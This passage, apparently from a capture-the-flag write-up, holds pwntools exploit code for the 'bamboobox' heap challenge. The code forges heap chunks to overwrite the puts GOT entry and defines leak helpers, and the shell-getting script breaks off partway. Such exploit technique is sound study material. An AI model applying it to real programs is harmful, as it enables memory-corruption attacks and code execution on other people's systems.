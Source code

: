 ```python

remove_item(1)

pay2 = '\x00'*0x18 + p64(p_chunk0-0x18) + p64(0) + p64(bin.got['puts'])
change_item(0,len(pay2),pay2)

change_item(1,16,p64(bin.symbols['magic']))
flag = cn.recv()

log.success("the flag is : "+flag)
```


**exp_get_shell**:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['terminator','-x','bash','-c']
cn = process('./bamboobox')
bin = ELF('./bamboobox')

itemlist = 0x00000000006020C0
p_chunk0 = itemlist+8

def add_item(length,name):
	cn.sendline('2')
	cn.recvuntil('the length of item name:')
	cn.sendline(str(length))
	cn.recvuntil('the name of item:')
	cn.sendline(name)

def change_item(index,length,name):
	cn.sendline('3')
	cn.recvuntil('the index of item:')
	cn.sendline(str(index))
	cn.recvuntil('the length of item name:')
	cn.sendline(str(length))
	cn.recvuntil('new name of the item:')
	cn.sendline(name)

def remove_item(index):
	cn.sendline('4')
	cn.recvuntil('the index of item:')
	cn.sendline(str(index))

def show_item():
	cn.sendline('1')
	cn.recvuntil('0 :')
	data = cn.recvuntil('-')
	return data[:-len('-')]

def leak(addr):
	pay = '\x00'*0x18 + p64(p_chunk0-0x18) + p64(0) + p64(addr)
	change_item(0,len(pay),pay)
	cn.sendline('1')
	cn.recvuntil('1 : ')
	data = cn.recvuntil('2 : ')[:-4]
	log.info(hex(addr) + '->' + (data+'\x00').encode('hex'))
	return (data+'\x00')


	
```